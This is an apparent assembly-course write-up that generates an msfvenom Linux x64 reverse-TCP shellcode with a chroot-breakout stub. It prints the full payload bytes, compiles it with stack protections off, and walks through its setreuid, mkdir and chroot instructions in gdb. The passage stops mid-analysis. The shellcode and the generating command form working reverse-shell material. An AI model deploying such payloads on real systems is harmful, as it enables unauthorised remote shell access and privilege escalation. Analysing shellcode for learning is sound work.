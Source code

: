 ## linux/x64/shell_reverse_tcp

With options :
	PrependChrootBreak	   Prepend a stub that will break out of a chroot (includes setreuid to root)

We generate it :
```plaintext
skrox@kali:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 PrependChrootBreak=true ReverseListenerThreaded=true -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 151 bytes
Final size of c file: 661 bytes
unsigned char buf[] = 
"\x48\x31\xff\x48\x89\xfe\x48\x89\xf8\xb0\x71\x0f\x05\x48\xbf"
"\x71\x77\x4d\x44\x42\x6f\x72\x57\x56\x57\x48\x89\xe7\x66\xbe"
"\xed\x01\x6a\x53\x58\x0f\x05\x48\x31\xd2\xb2\xa1\x48\x89\xd0"
"\x0f\x05\x66\xbe\x2e\x2e\x56\x48\x89\xe7\x6a\x45\x5b\x6a\x50"
"\x58\x0f\x05\xfe\xcb\x75\xf7\x6a\x2e\x48\x89\xe7\x48\x89\xd0"
"\x0f\x05\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a"
"\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f"
"\x05";
```
Like always, we copy/paste it into a wrapper compile it and run it with gdb :
```plaintext
skrox@kali:~$ g++ -ggdb -m64 -fno-stack-protector -z execstack -o reverse-tcp shellcode.cpp
skrox@kali:~$ gdb ./reverse-tcp
```

Then we break at the start of the payload and look at its instructions :
```nasm
(gdb) break *&payload
Breakpoint 1 at 0x4060
(gdb) run
Starting program: /home/skrox/Desktop/github-repos/SLAE64/Assignment-05-MsfVenom_shellcodes_analysis/reverse-tcp 

Breakpoint 1, 0x0000555555558060 in payload ()
(gdb) disas
Dump of assembler code for function payload:

; setreuid(0,0)
; set real and/or effective user or group ID
=> 0x0000555555558060 <+0>:	xor    rdi,rdi		; RDI set to 0
   0x0000555555558063 <+3>:	mov    rsi,rdi		; RSI set to 0
   0x0000555555558066 <+6>:	mov    rax,rdi		; RAX  set to 0
   0x0000555555558069 <+9>:	mov    al,0x71		; RAX set to setreuid syscall value
   0x000055555555806b <+11>:	syscall 		; exec setreuid

; mkdir("qwMDBorW", '755')
   0x000055555555806d <+13>:	movabs rdi,0x57726f42444d7771  ; random string WroBDMwq
   0x0000555555558077 <+23>:	push   rsi	 	; string terminator
   0x0000555555558078 <+24>:	push   rdi		; 
   0x0000555555558079 <+25>:	mov    rdi,rsp		; RDI point to "qwMDBorW"
   0x000055555555807c <+28>:	mov    si,0x1ed		; permission mode 755
   0x0000555555558080 <+32>:	push   0x53
   0x0000555555558082 <+34>:	pop    rax		; mkdir syscall value
   0x0000555555558083 <+35>:	syscall 		; exec mkdir

; chroot("qwMDBorW")
; change root directory
```